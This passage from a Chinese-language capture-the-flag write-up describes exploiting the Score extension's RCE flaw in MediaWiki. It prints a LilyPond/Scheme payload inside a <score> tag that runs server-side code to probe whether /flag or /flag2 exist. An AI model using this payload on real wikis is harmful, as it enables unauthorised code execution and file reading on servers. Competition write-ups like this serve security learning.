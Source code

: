 获得了 flag1 以及登录的凭据。

### 来我家做客吧

!["To your home"](assets/home.jpg)

*《孤独摇滚》动画第 7 集「到你的家里」*

接下来就应该是用 Score 的 RCE 漏洞了，照例读了一下 phabricator（<https://phabricator.wikimedia.org/T257062>），然后简单试了试：

```mediawiki
<score lang="lilypond">\new Staff <<{c^#
(if (file-exists? "/flag") "true" "false")
}>></score>
```

（payload 需要微调，因为好像没有 Image frame，但是不是大问题）

![No /flag file](assets/lilypond-0.png)

看起来不在 /flag？那 /flag2 呢？

![/flag2 file](assets/lilypond-1.png)
